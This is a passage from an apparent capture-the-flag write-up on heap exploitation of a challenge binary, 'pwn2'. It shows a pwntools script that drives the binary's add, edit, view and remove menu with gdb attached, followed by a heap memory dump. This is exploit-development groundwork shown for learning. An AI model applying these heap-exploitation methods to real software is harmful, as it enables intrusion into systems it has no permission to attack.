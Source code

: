 **Note:** for this stage I temporarily disabled ASLR. It was enabled for the challenge, and bypassing it was very easy as you will see later.

```python
#!/usr/bin/python2
from pwn import *
from binascii import hexlify

def add(length, name, age):
    p.sendlineafter("choice: ", "1")
    p.sendlineafter("length: ", str(length))
    p.sendlineafter("name: ", name)
    p.sendlineafter("age: ", str(age))

def edit(index, length, name, age):
    p.sendlineafter("choice: ", "2")
    p.sendlineafter("index (0-based): ", str(index))
    p.sendlineafter("length: ", str(length))
    p.sendlineafter("name: ", name)

def view(index):
    p.sendlineafter("choice: ", "3")
    p.sendlineafter("index (0-based): ", str(index))

def remove(index):
    p.sendlineafter("choice: ", "4")
    p.sendlineafter("index (0-based): ", str(index))

with context.quiet:
    p = process('./pwn2', env = {'LD_PRELOAD': './libc.so.6'})
    add(0x10, "AAAA", 1) 
    add(0x10, "BBBB", 2) 
    add(0x10, "CCCC", 3) 
    gdb.attach(p, '''
    ''')
    p.interactive()
```
```
$ ./exploit.py
gdb-peda$ find CCCC
Searching for 'CCCC' in: None ranges
Found 1 results, display max 1 items:
mapped : 0xf7c77240 ("CCCC\n")
gdb-peda$ x/32wx 0x81a8240 - 0x60
0x81a81e0:	0x00000000	0x00000000	0x00000000	0x00000021
0x81a81f0:	0x41414141	0x0000000a	0x00000000	0x00000000
0x81a8200:	0x00000000	0x00000000	0x00000000	0x00000021
0x81a8210:	0x42424242	0x0000000a	0x00000000	0x00000000
0x81a8220:	0x00000000	0x00000000	0x00000000	0x00000011
0x81a8230:	0x080ebb10	0x081a8240	0x00000003	0x00000021
0x81a8240:	0x43434343	0x0000000a	0x00000000	0x00000000
0x81a8250:	0x00000000	0x00000000	0x00000000	0x00020da9
```
